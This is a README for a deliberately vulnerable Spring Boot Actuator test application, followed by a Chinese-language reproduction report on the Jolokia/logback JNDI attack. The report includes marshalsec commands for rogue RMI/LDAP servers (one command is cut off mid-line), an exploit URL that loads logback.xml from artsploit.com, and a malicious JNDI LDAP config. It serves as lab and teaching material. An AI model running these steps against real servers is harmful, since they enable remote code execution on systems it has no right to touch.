

**Actuator Testbed**, a sample vulnerable application exposing Spring Boot Actuators

*Run locally (jdk 8 is recommended, by default binds to localhost:8090):*  
* `mvn install`
* `mvn spring-boot:run`

See https://www.veracode.com/blog/research/exploiting-spring-boot-actuators for attack payloads.



- - -


<h2 align="center">spring boot actuator漏洞复现报告</h2>

### jolokia介绍

Jolokia是一个利用JSON通过Http实现JMX远程管理的开源项目。具有快速、简单等特点。除了支持基本的JMX操作之外，它还提供一些独特的特性来增强JMX远程管理如：批量请求，细粒度安全策略等。

那JMX又是什么呢？
JMX：（Java Management Extensions，即Java管理扩展）是一个为应用程序、设备、系统等植入管理功能的框架。

参考资料：

- [jolokia 学习心得](https://blog.csdn.net/yang382197207/article/details/12911855)
- [理解JMX之介绍和简单使用](https://blog.csdn.net/lmy86263/article/details/71037316)

### Spring Boot Acuator介绍

Spring Boot Acuator 可以帮助你监控和管理Spring Boot应用，比如健康检查、审计、统计和HTTP追踪等。所有的这些特性可以通过JMX或者HTTP endpoints来获得。也就是说 Acuator 可以通过原生的端点(endpoint)来执行，常用的原生端点有 health、env、info，对于web应用而言，可以通过 JMX 来获得，该JMX就是jolokia。

参考资料：

- [SpringBoot命令执行漏洞分析与PoC](https://www.secrss.com/articles/9862)
- [Springboot之actuator配置不当的漏洞利用](https://www.freebuf.com/news/193509.html)
  
  
### JNDI/RMI/LDAP 介绍

JNDI，JNDI即Java Naming and Directory Interface，翻译成中文就Java命令和目录接口，2016年的blackhat大会上web议题重点讲到，JNDI提供了很多实现方式，主要有RMI，LDAP，CORBA等。

RMI, Remote Method Invocation 是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。

LDAP是开放的Internet标准，支持跨平台的Internet协议，在业界中得到广泛认可的，并且市场上或者开源社区上的大多产品都加入了对LDAP的支持，因此对于这类系统，不需单独定制，只需要通过LDAP做简单的配置就可以与服务器做认证交互。“简单粗暴”，可以大大降低重复开发和对接的成本。

marshalsec 是一个可以方便的开启 RMI 和 LDAP 服务的工具。
> 
开启rmi服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS/ExportObject 1099
开启ldap服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.L

- - -

Logback库提供的“reloadByURL”操作允许我们从外部URL重新加载日志的记录配置。 对于我们来说，只需导航到以下内容即可触发：
http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml

### 工作机理

1. 攻击者请求上述URL执行'qos.logback.classic.jmx.JMXConfigurator'类提供的'reloadByURL'函数。

2. “reloadByURL”函数从 http://artsploit.com/logback.xml 下载新的配置并将其解析为Logback。 此恶意配置应具有以下内容：
```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://artsploit.com:1389/jndi" as="appName" />
</configuration>
```
3. 在易受攻击的服务器上解析此文件时，它会创建与“env-entry-name”参数值中指定的攻击者LDAP服务器的连接，从而导致JNDI进行解析。 恶意的LDAP服务器可以返回具有“引用”类型的对象，以触发在目标应用程序上执行字节码。 这篇MicroFocus研究论文很好地解释了JNDI攻击。 由于Tomcat是Spring Boot架构中的默认应用程序服务器，所以新的JNDI开发技术也适用于此。


参考资料：

- [JNDI/LADP 学习](https://blog.sari3l.com/posts/469de5e6/)